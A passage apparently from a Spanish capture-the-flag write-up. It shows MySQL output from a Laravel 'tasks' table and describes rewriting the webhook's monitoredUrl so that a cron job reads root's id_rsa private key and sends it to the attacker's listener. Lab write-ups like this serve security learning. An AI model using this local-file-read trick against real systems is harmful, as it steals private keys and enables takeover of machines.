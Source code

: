 
El script obtiene el contenido del input que le pasas al campo WebHook de la web explotada anteriormente

Como el PsPy también había detectado una tarea relacionada con MySQL, puede que a la hora de ejecutarse la tarea CRON se introduzca algún dato nuevo, en caso de que se llame a la función adecuada.


```null
mysql> show tables;
+------------------------+
| Tables_in_laravel      |
+------------------------+
| failed_jobs            |
| migrations             |
| password_resets        |
| personal_access_tokens |
| tasks                  |
| users                  |
+------------------------+
6 rows in set (0.00 sec)

mysql> select * from tasks;
Empty set (0.00 sec)

mysql> select * from tasks\G;
*************************** 1. row ***************************
          id: 92f937e3-fccf-4c9a-b051-d99b83aa0bd5
  webhookUrl: http://10.10.16.34:8000
   onlyError: 0
monitoredUrl: http://10.10.16.34
   frequency: *****
  created_at: 2023-01-10 16:40:17
  updated_at: 2023-01-10 16:40:17
1 row in set (0.00 sec)

```

Efectivamente, tras crear el WebHook, se introducen nuevos datos

Se podría tratar de efectuar un LFI abusando de alguno de estos campos.

Como puedo editar la base de datos, en el apartado de monitoredUrl, una vez ya he creado el WebHook desde la web, fuerzo a que sea un archivo local de la máquina, en concreto, la id_rsa del usuario root.
